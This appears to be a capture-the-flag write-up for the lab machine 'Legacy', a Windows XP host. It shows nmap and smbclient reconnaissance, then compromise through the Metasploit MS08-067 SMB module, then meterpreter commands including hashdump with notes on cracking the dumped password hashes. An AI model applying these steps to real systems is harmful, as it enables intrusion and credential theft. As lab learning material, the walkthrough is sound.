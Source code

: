 # Legacy

## Nmap

```bash
    nmap -A -T4 -p- 10.10.10.4
```

Opened ports:

- 139
- 445

Purpose OS:  Windows XP
NetBIOS name: Legacy
smb-security-mode (last of 2 lines)

### Resume

SMB is target for attack.

## SMB

Try to connect

```bash
    smbclient -L 10.10.10.4 #login without password
```

Resume. Dead end.

Try detect SMB version.

```bash
    msfconsole
    # load
    search smb_version
    use
    set rhosts 10.10.10.4
    exploit
```

Google detected version for SMB Windows XP
https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
Follow instruction.

Opened reverse shell of metasploit

```bash
    getuid #  res is NT authority\system
    sysinfo # system info for identify victim
    hashdump # passwords hashes. First part  can be crack JohnRipper. Second part crack mapZack or PSAZack
    ## Look for sensitive files
    shell # Go to victim shell (There are flags store on the desktop each user)
```